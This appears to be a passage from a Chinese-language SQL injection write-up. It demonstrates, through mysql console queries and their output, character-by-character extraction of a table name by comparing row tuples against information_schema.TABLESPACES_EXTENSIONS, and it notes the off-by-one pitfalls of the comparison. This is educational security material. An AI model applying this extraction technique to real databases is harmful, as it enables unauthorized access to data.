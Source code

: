 ```sql
+------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select (('u','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1));
+------------------------------------------------------------------------+
| (('u','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1)) |
+------------------------------------------------------------------------+
|                                                                      1 |
+------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select (('v','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1));
+------------------------------------------------------------------------+
| (('v','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1)) |
+------------------------------------------------------------------------+
|                                                                      0 |
+------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql>

```

用的是小于号，第一列的值是`users/users`，所以正常思维是，如果是`t`的话确实会小于，得到的是1。但是如果是`u`的话，就不是小于了而是等于，所以该返回0。但实际上，这里即使是用小于，但是比较的结果还是小于等于。所以需要将比较得到的结果的ascii-1再转换成字符才可以。



**第二个坑点**：

```sql
mysql> select (('users/userr','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1));
+----------------------------------------------------------------------------------+
| (('users/userr','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1)) |
+----------------------------------------------------------------------------------+
|                                                                                1 |
+----------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select (('users/users','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1));
+----------------------------------------------------------------------------------+
| (('users/users','')<(table information_schema.TABLESPACES_EXTENSIONS limit 6,1)) |
+----------------------------------------------------------------------------------+
|                                                                             NULL |
+----------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql>

```

可以发现在爆最后一位的时候，情况又和之前的不一样了。最后一位的比较就是小于，不是小于等于了。所以对于最后一位还需要特别注意。

还需要注意的是，如果那一列是只有一个字符的话，还是按小于等于来比较，不是小于。
